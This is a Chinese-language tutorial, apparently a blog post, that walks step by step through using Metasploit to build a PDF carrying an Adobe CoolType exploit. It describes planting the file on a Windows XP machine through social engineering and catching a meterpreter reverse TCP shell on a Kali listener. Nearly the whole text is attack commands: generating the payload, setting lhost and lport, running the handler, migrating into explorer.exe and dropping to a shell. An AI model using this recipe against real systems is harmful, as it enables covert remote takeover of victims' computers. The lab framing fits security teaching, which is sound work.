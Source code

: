 
# 0X00 攻击原理和过程
一 、生成包含payload代码的ADOBE pdf文件<br />二、将其通过社工方法复制到XP<br />三、kali启动侦听<br />四、当xp下该文件运行，形成一个反弹连接到kali


# 0X01 实例

## 环境准备
winxp（192.168.1.130）目标机<br />kali（192.168.1.149）攻击机


## 步骤一
打开msfconsole
```
root@kali222:~# service postgresql restart
root@kali222:~# msfdb init
root@kali222:~# msfconsole
```
<br />![](https://img-blog.csdnimg.cn/20200415144642933.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=T4FYG&originHeight=417&originWidth=723&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤二
打开ADOBE 利用模块，去生成包含payload的PDF文档
```
msf5 > use exploit/windows/fileformat/adobe_cooltype_sing    ----打开ADOBE 利用模块，去生成包含payload的PDF文档
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set payload
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set lhost  192.168.1.149   --设置kali的ip
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set lport 4444  --设置kali的port
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > show options
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > exploit
```
<br />![](https://img-blog.csdnimg.cn/20200415144957186.png#crop=0&crop=0&crop=1&crop=1&id=vJ5Nv&originHeight=108&originWidth=728&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤三
```
msf.pdf stored at /root/.msf4/local/msf.pdf               ------到此生成包含payload代码的pdf文件，将该文件复制到XP
```
<br />![](https://img-blog.csdnimg.cn/20200415145212296.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=EVrZS&originHeight=211&originWidth=406&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤四
```
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > back
msf5 >
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost  192.168.1.149
msf5 exploit(multi/handler) > show options
```
<br />![](https://img-blog.csdnimg.cn/20200415145354481.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=eJr2q&originHeight=429&originWidth=721&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤五
KALI上启动侦听
```
msf5 exploit(multi/handler) > exploit               ---KALI上启动侦听，当WIN7或者XP上该文件运行时候，会形成一个反弹连接到KALI
```
<br />![](https://img-blog.csdnimg.cn/2020041514561748.png#crop=0&crop=0&crop=1&crop=1&id=IuWQP&originHeight=172&originWidth=737&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤六
```
获得控制权
meterpreter > ps
meterpreter > migrate  1476     --------迁移到explorer.exe 进程，explorer.exe是Windows程序管理器或者文件资源管理器，1476为explorer.exe 进程对应的进程号
```
<br />![](https://img-blog.csdnimg.cn/20200415145912874.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=zNVYQ&originHeight=254&originWidth=559&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 步骤七
用shell连接
```
meterpreter > shell
```
<br />![](https://img-blog.csdnimg.cn/2020041515000268.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=xEZ3F&originHeight=220&originWidth=443&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
